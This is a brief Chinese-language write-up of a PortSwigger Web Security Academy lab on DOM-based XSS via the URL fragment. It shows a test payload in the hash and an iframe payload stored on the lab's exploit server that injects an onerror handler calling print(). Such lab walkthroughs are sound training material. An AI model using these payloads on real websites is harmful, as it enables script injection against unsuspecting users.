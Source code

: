 随意提交信息，发现没有什么用，网页拉到最上，发现有一个`exploit server`提供给我们使用



`F12`发现网页处理逻辑：

![image-20250222120545553](../../_media/image-20250222120545553.png)



```
https://0a0000ad03360645801c4979004f004f.web-security-academy.net/#%3Cimg%20src=x%20onerror=print()%3E
```

![image-20250222120238306](../../_media/image-20250222120238306.png)





然后在`exploit server`中的Body添加如下内容，点击`Store`

```
<iframe src="https://0a0000ad03360645801c4979004f004f.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'" hidden="hidden"></iframe>
```
